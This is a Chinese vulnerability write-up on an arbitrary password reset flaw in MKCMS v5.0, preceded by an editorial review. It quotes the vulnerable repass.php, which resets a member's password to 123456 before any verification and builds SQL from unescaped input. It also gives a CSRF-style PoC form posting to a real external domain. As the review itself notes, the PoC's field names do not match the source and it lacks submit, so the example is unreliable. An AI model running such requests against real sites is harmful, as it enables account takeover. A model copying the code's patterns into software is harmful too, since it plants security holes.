

## 核对与使用边界

- 明确更正：正文源码读取 name、email 并要求 submit，而所贴 PoC 使用 u_name、u_email 且缺 submit，这份请求不能按所示代码触发。源码在发邮件前就把密码设为固定 123456 是另一项逻辑问题；密码重置会改变真实账号，保留代码但不能称原 PoC 已成功。

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：知道受害会员用户名和匹配邮箱；公开repass接口；无邮箱控制需求

- **证据待核（1）**：源码在邮件前将密码设固定123456，逻辑明确，但PoC字段u_name/u_email与源码name/email完全不匹配且缺submit，无法按示例触发。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

- **结论使用边界（2）**：表单需点击提交，访问HTML本身不提交；动作URL为外部实域应替换示例。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **结论使用边界（3）**：任意密码重置应限定会员及已知用户名邮箱，非无需任何信息的任意账号。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# MKCMS v5.0 任意密码重置漏洞

一、漏洞简介
------------

二、漏洞影响
------------

MKCMS v5.0

三、复现过程
------------

漏洞出现在`/ucenter/repass.php`第1-44行:

    <?php 
    include('../system/inc.php');
    if(isset($_SESSION['user_name'])){
    header('location:index.php');
    };

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    $email = trim($_POST['email']);
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username' and u_email='$email'");
    if(!! $row = mysql_fetch_array($query)){
    $_data['u_password'] = md5(123456);
    $sql = 'update mkcms_user set '.arrtoupdate($_data).' where u_name="'.$username.'"';
    if (mysql_query($sql)) {

    $token =$row['u_question'];
    include("emailconfig.php");
        //创建$smtp对象 这里面的一个true是表示使用身份验证,否则不使用身份验证.
        $smtp = new Smtp($MailServer, $MailPort, $smtpuser, $smtppass, true); 
        $smtp->debug = false; 
        $mailType = "HTML"; //信件类型，文本:text；网页：HTML
        $email = $email;  //收件人邮箱
        $emailTitle = "".$mkcms_name."用户找回密码"; //邮件主题
        $emailBody = "亲爱的".$username."： 感谢您在我站注册帐号。 您的初始密码为123456 如果此次找回密码请求非你本人所发，请忽略本邮件。 
-------- ".$mkcms_name." 敬上
";

        // sendmail方法
        // 参数1是收件人邮箱
        // 参数2是发件人邮箱
        // 参数3是主题（标题）
        // 参数4是邮件主题（标题）
        // 参数4是邮件内容  参数是内容类型文本:text 网页:HTML
        $rs = $smtp->sendmail($email, $smtpMail, $emailTitle, $emailBody, $mailType);
    if($rs==true){
    echo '';
    }else{
    echo "找回密码失败";
    }

    }
    }
    }

    ?>

本质上来说此处是一个逻辑问题，程序未通过邮箱等验证是否为用户本身就直接先在第13-14行把用户密码重置为`123456`了，根本没管邮件发送成功没有。

### poc

> 构造如下poc.html,并访问poc.html，然后用123456密码登录即可

    <html>
      <body>
      
        <form action="http://v.micool.top/ucenter/repass.php" method="POST">
          <input type="hidden" name="u&#95;name" value="lduo123" />
          <input type="hidden" name="u&#95;email" value="admin&#64;gmail&#46;com" />
          <input type="submit" value="Submit request" />
        </form>                         
      </body>
    </html>

参考链接
--------

> https://xz.aliyun.com/t/4189\#toc-1
>
> https://cisk123456.blogspot.com/2019/04/mkcms-v50.html
